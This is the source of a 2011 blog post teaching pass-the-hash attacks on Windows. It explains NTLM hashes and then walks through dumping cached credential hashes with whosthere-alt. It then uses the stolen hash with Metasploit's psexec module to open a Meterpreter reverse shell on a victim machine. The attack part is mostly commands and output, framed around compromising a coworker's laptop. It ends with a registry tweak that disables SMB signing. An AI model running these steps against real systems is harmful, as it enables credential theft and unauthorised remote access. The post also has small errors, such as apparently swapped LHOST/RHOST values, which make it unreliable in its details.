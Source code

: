 ```yaml
---
layout: blog-post
title: "Pass the Hash Exploitation on Windows"
excerpt: Pass the Hash Exploitation on Windows
disqus_id: /2011/08/16/passthehash/
location: Delhi, India
time: 10:00 PM
categories:
- Hacking
- Windows
- Pass The Hash
---
```


#{{ page.title }}

A Windows 2000/NT/XP/Vista/7 system can be compromised with a technique called [pass the Hash](http://en.wikipedia.org/wiki/Pass_the_hash). For us to exploit this technique, we must know some basica.

In a Windows based authentication such as NTLM or Kerberos, the password is never sent as cleartext. Instead the password is transformed into a hash(LM or NTLM Hash) and then sent to the server. The server then compares this hash against the stored hash and grants/denies the access.

There are two types of hashes:

* [LM hash, LanMan, or LAN Manager hash](http://en.wikipedia.org/wiki/LM_hash): It is the obsolete hashing algorithm. Refer to the link to see how it is computed.
* NTLMv2 Hash: This is latest hashing method used on Windows 7/Vists/2008 systems.

Whenever a domain user logs on to the client computer, the hash of its password is stored on the client so that user can be authenticated in future even if the domain controller is not available. There are two types of caching, which is mentioned [here](http://support.microsoft.com/kb/913485).

Now lets suppose, somebody has used your office laptop to log in and access some intranet based sites. Then that user's password hash is stored in your system.

You can retrieve these hashes using a utility such as [PSH Toolkit](http://oss.coresecurity.com/projects/pshtoolkit.htm). It contains a utility **whosthere** which can dump the hashes.

{% highlight text %}
C:\Documents and Settings\madhur\Desktop\pshtoolkit_v1.4\whosthere-alt>whosthere-alt.exe
WHOSTHERE-ALT v1.1 - by Hernan Ochoa (hochoa@coresecurity.com, hernan@gmail.com)
 - (c) 2007-2008 Core Security Technologies
This tool lists the active LSA logon sessions with NTLM credentials.
use -h for help.
the output format is: username:domain:lmhash:nthash

madhur:BACKTRACK:123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
BACKTRACK$:WORKGROUP:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0
{% endhighlight %}

Once you have grabbed the hash, you can anytime compromise the victim's computer using metaspoilt's psexec module, if you know the IP address, which is not difficult considering an intranet evnironment.

{% highlight text %}
msf exploit(psexec) > use windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.0.13
RHOST => 192.168.0.13
msf exploit(psexec) > set LHOST 192.168.0.14
LHOST => 192.168.0.14
msf exploit(psexec) > set SMBDomain backtrack
SMBDomain => backtrack
msf exploit(psexec) > set SMBUser madhur
SMBUser => madhur
msf exploit(psexec) > set SMBPass 123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
SMBPass => 123A85F000020D1BAAD3B435B51404EE:5530F36C167C7993E976989949788A9B
msf exploit(psexec) > exploit

[*] Started reverse handler on 192.168.0.13:4444 
[*] Connecting to the server...
[*] Authenticating to 192.168.0.14:445|backtrack as user 'madhur'...
[*] Uploading payload...
[*] Created \wttVwMnA.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.14[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.0.14[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (nkgYMOZy - "MrDoYCoO")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \wttVwMnA.exe...
[*] Sending stage (749056 bytes) to 192.168.0.14
[*] Meterpreter session 6 opened (192.168.0.13:4444 -> 192.168.0.14:1035) at 2011-08-16 22:16:47 +0530

meterpreter > 
{% endhighlight %}

If you have trouble exploiting the target system, then it might be some security enabled your Administrator. For ex

* Simple file sharing is disabled (Windows XP)
* Windows UAC drops all the Administrator privileges from the SAT (Security Access Token) for REMOTE connections that are using LOCAL accounts. This restriction prevents all remote administrative functions such as connecting to administrative shares (C$, etc) installing services or launching a new process (psexec)
* "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters" on the target systems and setting the value of "RequireSecuritySignature" to "0".

References:
* [http://oss.coresecurity.com/pshtoolkit/doc/index.html](http://oss.coresecurity.com/pshtoolkit/doc/index.html)
* [https://www.infosecisland.com/blogview/9271-NTLM-Passwords-Cant-Crack-it-Just-Pass-it.html](https://www.infosecisland.com/blogview/9271-NTLM-Passwords-Cant-Crack-it-Just-Pass-it.html)

